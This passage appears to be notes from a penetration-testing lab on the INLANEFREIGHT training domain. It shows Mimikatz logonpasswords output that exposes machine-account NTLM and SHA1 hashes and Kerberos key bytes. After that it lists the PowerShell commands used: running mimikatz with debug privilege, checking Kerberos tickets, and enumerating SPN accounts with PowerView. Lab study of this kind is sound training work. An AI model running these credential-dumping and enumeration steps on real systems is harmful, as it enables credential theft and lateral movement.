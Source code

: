 ```
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 45178 (00000000:0000b07a)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 44190 (00000000:0000ac9e)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               :
        msv :
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname
